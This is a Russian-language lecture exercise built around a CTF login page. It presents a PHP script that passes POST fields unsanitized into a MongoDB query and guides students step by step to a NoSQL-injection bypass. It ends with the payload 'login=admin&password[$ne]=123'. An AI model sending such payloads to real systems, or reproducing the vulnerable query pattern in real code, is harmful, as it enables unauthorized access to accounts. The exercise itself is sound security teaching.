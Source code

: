 # Лекция 7 практика

Дано приложение. Расположенное по адресу: [http://bakery.p.myctf.ru/](http://bakery.p.myctf.ru/)

Код приложения таков:

```php
<?php
    if (isset($_POST['login']) && isset($_POST['password'])) {
        $collection = $db->users;
        $cursor = $collection->find(array("login" => $_POST['login'], "password" => $_POST['password']));
            if ($cursor->count() > 0) {
?>
        <h1>Flag: XXXX</h1>
<?php } else echo "Wrong credentials";} ?>
```

## Какую роль выполняет строка?

```php
$collection->find(array("login" => $_POST['login'], "password" => $_POST['password']))
```

## В каком случае вы получите положительное выполнение выражения?

```php
$cursor->count() > 0
```

## Каким запросом передаются параметры на сайте?

Все запросы в MongoDB должны быть в формате JSON, где передаются массивы параметров и значений. Драйвер MongoDB представляет собой компонент, преобразующий массив к формату JSON.

Запрос, заполненный значениями, будет передаваться в MongoDB в следующем виде:

```php
find( {username: 'barry',Password:'jimmypage'})
```

## Рассмотрите следующую идею

При каком еще условии будет выполняться find?

```php
find(array("login" => $_POST['login'], "password" => $_POST['password']))
```

## обратитесь к мануалу mongodb

[https://docs.mongodb.com/manual/reference/operator/query/ne/](https://docs.mongodb.com/manual/reference/operator/query/ne/)

`{field: {$ne: value} }`

## В качестве значения параметра вам нужно получить массив. Сделать в HTTP это можно следующим образом

```var[key]=value```

В итоге переменная примет вид:

```php
array(1) {
  ["var"]=>
  array(1) {
    ["key"]=>
    string(x) "value"
  }
}
```

А в строке кода php:

```php
find( { ... var: {key:'value'}  ....  })
```

Используя мануал из п.5 попробуйте выполнить инъекцию. Пройдите все шаги, указанные в пунктах выше и запишите свои значения. Покажите полученный результат.

`login=admin&password[$ne]=123`